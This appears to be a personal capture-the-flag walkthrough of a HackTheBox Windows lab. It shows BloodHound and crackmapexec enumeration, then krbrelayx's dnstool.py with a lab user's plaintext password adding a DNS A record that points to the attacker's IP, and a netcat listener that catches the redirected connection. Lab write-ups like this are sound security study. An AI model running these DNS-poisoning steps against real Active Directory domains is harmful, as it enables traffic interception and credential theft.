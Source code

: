Drag and drop bloodhound files to the console.

Navigate to analysis and select 

**Find all Domain Admins**
- There is only one *Administrator*
**Find Shortest Paths to Domain Admins**
- We have to be 
	- enterprise admin
	- administrators
	- administrative user 

Mark Tiffany.Molina as owned... Found nothing interesting in bloodhound.

Used crackmapexec to get a list of users and marked some administrative users as high value targets. 

We want to get to Ted Graves or Laura.

Anyone can create a domain entry in active directory. 

### krbrelayx's DNS Tool

Download krbrelayx from [GitHub](https://github.com/dirkjanm/krbrelayx)

```
git clone https://github.com/dirkjanm/krbrelayx.git
```

This repo has dnstool.py 

```
python3.8 dnstool.py
```

![[HackTheBox/Windows/attachments/Pasted image 20250519210914.png]]

Use dnstool to create an A Record on AD server

```
python3.8 dnstool.py -u 'intelligence\tiffany.molina' -p NewIntelligenceCorpUser9876 -r webippsec.intelligence.htb -a add -t A -d 10.10.14.8 10.10.10.248
```

This worked!
![[HackTheBox/Windows/attachments/Pasted image 20250519211621.png]]

Set up a nc listener to see if we get a connection back.

```
sudo nc -nvlp 80
```

We do get a connection back!

![[HackTheBox/Windows/attachments/Pasted image 20250519211936.png]]

Performing nslookup to verify the A records point back to us 

![[HackTheBox/Windows/attachments/Pasted image 20250519212049.png]]
